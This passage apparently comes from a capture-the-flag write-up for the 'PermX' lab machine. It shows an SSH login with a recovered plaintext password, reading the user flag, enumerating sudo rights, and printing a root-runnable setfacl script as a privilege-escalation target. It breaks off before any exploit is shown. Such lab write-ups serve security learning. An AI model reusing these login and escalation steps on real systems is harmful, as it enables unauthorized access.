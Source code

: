 Or

```
ssh mtz@permx.htb
mtz@permx.htb's password: 03F6lY3uXAP2bkW8
```

With successful access, we can read the user flag.

```
cd
cat user.txt
```

Next, we check for commands we can run as `root` using `sudo` to escalate privileges.

```
sudo -l

Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

We can run /opt/acl.sh as root without a password. Let's review it to look for the way of getting root.

```
cat /opt/acl.sh
```

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

